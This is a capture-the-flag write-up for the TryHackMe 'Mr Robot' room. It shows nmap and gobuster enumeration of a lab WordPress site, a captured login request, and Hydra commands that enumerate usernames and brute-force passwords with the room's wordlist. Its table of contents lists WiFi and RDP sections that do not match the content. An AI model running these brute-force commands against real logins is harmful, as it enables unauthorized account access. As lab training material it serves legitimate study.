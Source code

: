 # THIS PAGE IS A WORK IN PROGRESS... #


![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/109cc692-4ce9-4be0-83b8-935211f82301)

# Mr Robot CTF Writeup #
### [https://tryhackme.com/room/adv3nt0fdbopsjcap](https://tryhackme.com/room/mrrobot) ###

#  
### CONTENTS : ###
[TL;DR](#tldr-)

[PROCEDURE](#procedure-)

-  [Part 1 - Retrieving the WiFi SSID](#part-1---retrieving-the-wifi-ssid)
    
-  [Part 2 - Retrieving the WiFi Password](#part-2---retrieving-the-wifi-password)
    
-  [Part 3 - Decrypting and Analysing WiFi Traffic](#part-3---decrypting-and-analysing-wifi-traffic)
    
-  [Part 4 - Decrypting and Replaying a RDP Session](#part-4---decrypting-and-replaying-a-rdp-session)



### TL;DR : ###
#

Target IP: **``10.10.90.47``**

## FLAG 1 of 3 ##

>HINT: `Robots`

We are given a target IP  and a one-word hint that seems to be in-keeping with the overall Mr Robot theme of the room.

To start off, let's perform a NMAP scan just to see what services are running on the target:

```console
root@ip-10-10-140-73:~/mrobot# nmap -sV 10.10.90.47

Starting Nmap 7.60 ( https://nmap.org ) at 2024-02-07 09:03 GMT
Nmap scan report for ip-10-10-90-47.eu-west-1.compute.internal (10.10.90.47)
Host is up (0.00051s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
MAC Address: 02:14:FF:13:8D:17 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.79 seconds
```

It looks like the server is just running a web-page which we can access by visiting `http://10.10.90.47/` in our browser.  This brings up a cool simulated console:

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/5b168d2c-2a5b-48ba-8b7b-b64f0239b54d)

Trying to enter any of the commands offered on screen doesn't really lead anywhere, other than to give us some cool Mr Robot themed videos, pictures and text prompts. But it's worth noting that every command we enter redirects to a sub-url with the same name.  So for example if we enter the command `inform` it will take us to the `/inform` webpage.

Just as we'd normally do in a normal enumeration exercise (and also because fo that hint we got), we can take a look at the `robots.txt` file to see whether it contains anything interesting:

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/cc7708d5-66c4-415b-8123-a309f57698b8)

From here we can see reference to two interesting files; `fsocity.dic` and `key-1-of-3.txt`.

We can simply look at the contents of `key-1-of-3.txt` by entering the URL `http://10.10.90.47/key-1-of-3.txt` in the browser or by using `curl`:

```console
root:~# curl http://10.10.90.47/key-1-of-3.txt
073403<R E D A C T E D>0724b9
```

## FLAG 2 of 3 ##

>Hint: `There's something fishy about this wordlist... Why is it so long?`


We should also go ahead and download a copy of `fsocity.dic`.  Having a look at its contents, it appears to be some kind of wordlist.  Based on past expereinces with similar CTF challenges, this indicates that we'll probably be needing this wordlist to perform a bruteforce password cracking at some point later on.

For the time being, let's take a closer look at the website and see whether we can find an interestiugn directories.  We can use `gobuster` with a medium wordlist for this:

```console
root:~# gobuster dir -u http://10.10.90.47 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 1000 -q
/video (Status: 301)
/admin (Status: 301)
/wp-content (Status: 301)
/atom (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/feed (Status: 301)
/css (Status: 301)
/intro (Status: 200)
/images (Status: 301)
/sitemap (Status: 200)
/image (Status: 301)
/Image (Status: 301)
/wp-login (Status: 200)
/rss2 (Status: 301)
```

Interestingly we can see a `/wp-login` page and if we try accessing this we are served a Wordpress login page! :)

If we try logging in with username `admin` and password `admin` (just to see what happens).  The page serves up an error saying **_Invalid username_**.  This is actually great news for us as this means we have a way of trying out multiple usernames and finding out which of them are valid.

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/59c85716-60e0-4cb6-a03d-2dbc19ef8298)

We can do this quite easily using a tool such as `Hydra` and it makes sense to use the `fsocity.dic` wordlist we found earlier to attempt this.  But first let's fire up Burp Suite and have a look at what happens when we submit a username and password to the login page.  This will allow us to consturct the proper hydra command we need to use.

```http
POST /wp-login.php HTTP/1.1
Host: 10.10.90.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://10.10.90.47
Connection: close
Referer: http://10.10.90.47/wp-login.php
Cookie: s_cc=true; s_fid=5C779EDA99811D07-07120F123BF26DC4; s_nr=1707297020912; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.90.47%2Fwp-admin%2F&testcookie=1
```

We can see a http POST request being made that passes the username as the variable `log` and the password as the variable `pwd`.  We can now use this information so that hydra can enumarte valid usernames with the following command:

```console
root:~# hydra -L fsocity.dic -p abcdef 10.10.5.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"
```

Let's take a closer look at the parameters we're passing on to hydra in this command:
- `-L <filename>` passes a wordlist to be used when brute forcing logins/passwords.  In our case we will be using the file `fsocity.dic` which we downloaded earlier
- `-p <password>` specifies the password to use.  Since we are just trying to enumarate usernames for the time being, we can use any random string here.
- `http-post-form` tells hydra to use the http post method (since this is what we saw in Burp Suite).
- `/wp-login.php:log=^USER^&pwd=^PWD^:Invalid Username`  This part tells hydra the strcuture that the http post request should take. In our case we copy this from the captured post in Burp Suite and replace the username and password with the placeholders `^USER^` and `^PWD^` respectively.  The "`Invalid Username`" is a string we're expecting to recieve in the http response whenever the username is incorrect.

Hydra gives us the following output telling us that from the `fsocity.dic` file provided it has identified `Elliot` as a valid username.

```console
[DATA] attacking http-post-form://10.10.5.136:80//wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.5.136   login: Elliot   password: abcdef
```

We can now try running the attack again but this time using `Elliot` as the username and brute-forcing the password field.

```console
root:~# hydra -l elliot -P fsocity.dic 10.10.5.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered"
```
This time we're using the `-l` switch with username `elliot` and the `-P` switch instead of `-p` to use a wordlist file.  Note that the failure message has also been changed to "The password you entered" to reflect part of the error message we get when we try logging in with the correct username but an incorrect password.
